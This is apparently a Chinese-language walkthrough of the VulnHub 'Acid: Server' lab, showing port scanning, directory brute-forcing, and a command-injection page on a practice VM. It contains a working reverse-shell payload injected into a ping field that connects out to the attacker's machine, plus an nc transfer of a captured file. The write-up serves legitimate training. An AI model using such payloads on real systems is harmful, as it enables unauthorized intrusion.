










# ACID: SERVER

> https://download.vulnhub.com/acid/Acid.rar

靶场IP：`192.168.32.205`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.205                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 01:37 EDT
Nmap scan report for 192.168.32.205
Host is up (0.0012s latency).
Not shown: 65534 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
MAC Address: 00:0C:29:FF:21:11 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds

```

访问33447端口



访问`/Challenge`目录



爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.32.205:33447/Challenge -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.205:33447/Challenge
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/06 01:43:22 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 1333]
/css                  (Status: 301) [Size: 333] [--> http://192.168.32.205:33447/Challenge/css/]
/includes             (Status: 301) [Size: 338] [--> http://192.168.32.205:33447/Challenge/includes/]
/js                   (Status: 301) [Size: 332] [--> http://192.168.32.205:33447/Challenge/js/]      
/include.php          (Status: 302) [Size: 0] [--> protected_page.php]                               
/styles               (Status: 301) [Size: 336] [--> http://192.168.32.205:33447/Challenge/styles/]  
/error.php            (Status: 200) [Size: 309]                                                      
/cake.php             (Status: 200) [Size: 496]                                                      
/hacked.php           (Status: 302) [Size: 0] [--> protected_page.php]                               
/less                 (Status: 301) [Size: 334] [--> http://192.168.32.205:33447/Challenge/less/] 
```

访问`/cake.php  `发现`/Magic_Box/`



访问`/Magic_Box/`



继续爆破路径

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.32.205:33447/Challenge/Magic_Box/ -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.205:33447/Challenge/Magic_Box/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/06 01:45:48 Starting gobuster in directory enumeration mode
===============================================================
/low.php              (Status: 200) [Size: 0]
/command.php          (Status: 200) [Size: 594]
/proc                 (Status: 301) [Size: 344] [--> http://192.168.32.205:33447/Challenge/Magic_Box/proc/]

```

找到一个ping命令执行页面



添加多一个`/`就可以访问



在输入框输入反弹shell

```
0;php -r '$sock=fsockopen("192.168.32.130",12345);exec("/bin/sh -i <&3 >&3 2>&3");'
```

查找有意思的文件





```
┌──(root💀kali)-[/tmp]
└─# nc -lvp 1234 > hint.pcapng
listening on [any] 1234 ...
192.168.32.205: inverse host lookup failed: Unknown host
connect to [192.168.32.130] from (UNKNOWN) [192.168.32.205] 41308

```

分析数据包，获取到以下内容。

```
heya
hello
What was the name of the Culprit ???
saman and now a days he's known by the alias of 1337hax0r
oh...Fuck....Great...Now, we gonna Catch Him Soon :D
Yes .. We have to !! The mad bomber is on a rage
Ohk...cya
Over and Out
```



su提权成功


